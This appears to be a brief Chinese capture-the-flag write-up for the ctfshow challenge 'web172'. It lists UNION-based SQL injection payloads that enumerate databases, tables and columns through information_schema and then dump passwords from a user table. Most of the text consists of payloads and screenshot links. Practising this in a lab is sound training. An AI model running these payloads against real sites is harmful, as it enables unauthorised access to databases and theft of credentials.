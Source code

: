 # web172
列数为2
![](vx_images/511775517975179.png)
判断回显位
![](vx_images/386782852023091.png)
爆库
```
1'union select database(),schema_name from information_schema.schemata--+
```
![](vx_images/478873419144595.png)
爆表
```
1'union select database(),table_name from information_schema.tables where table_schema='ctfshow_web'--+
```
![](vx_images/508995551156562.png)
爆字段
```
1'union select database(),column_name from information_schema.columns where table_name='ctfshow_user2'--+
```

dump
```
1'union select database(),password from ctfshow_user2--+
```
![](vx_images/336387409444879.png)